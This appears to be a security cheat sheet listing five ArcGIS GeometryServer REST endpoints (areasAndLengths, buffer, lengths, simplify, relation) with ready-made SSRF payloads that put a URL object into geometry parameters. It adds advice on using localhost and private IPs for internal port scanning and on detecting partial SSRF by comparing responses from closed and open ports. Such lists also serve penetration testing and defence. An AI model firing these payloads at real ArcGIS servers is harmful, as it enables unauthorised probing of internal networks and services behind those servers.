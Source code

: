 Note: The paths may slightly vary from target to target so adjust them as needed. Each endpoint can be leveraged for internal network scan/internal port scan by using `http://127.0.0.1:25` or `http://localhost:25` or `http://<private_ip>`.

Quick tip for getting a partial SSRF: First attempt a port that is very likely to be closed such as 55555/tcp and then another one that is likely to be open 111/tcp(for linux) 445/tcp(for windows). After this observe differences in their responses to find a pattern.

## 1.
Endpoint: `/Utilities/Geometry/GeometryServer/areasAndLengths`

Parameter: `polygons`

Sample payload: `sr=102009&polygons={"url":"http://example.com"}&lengthUnit=9035&areaUnit=%7B%22areaUnit%22:%22esriAcres%22%7D&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/areas-and-lengths/

## 2. 
Endpoint: `/Utilities/Geometry/GeometryServer/buffer`

Parameter: `geometries`

Sample payload: `?geometries={"url":"http://example.com"}&inSR=4326&outSR=4326&bufferSR=3857&distances=1000&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/buffer/

## 3. 
Endpoint: `/Utilities/Geometry/GeometryServer/lengths`

Parameter: `polylines`

Sample payload: `sr=4269&polylines={"url":"http://example.com"}&lengthUnit=9036&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/lengths/

## 4.

Endpoint: `Utilities/Geometry/GeometryServer/simplify`

Parameter: `geometries`

Sample payload: `sr=4326&geometries={"url":"http://example.com"}`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/simplify/

## 5. 

Endpoint: `Utilities/Geometry/GeometryServer/relation`

Parameter: `geometries1` and `geometries2`

Sample Payload: `sr=4326&geometries1={"url":"http://example.com"}&geometries2={"url":"http://example.com"}&relation=esriGeometryRelationWithin`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/relation/
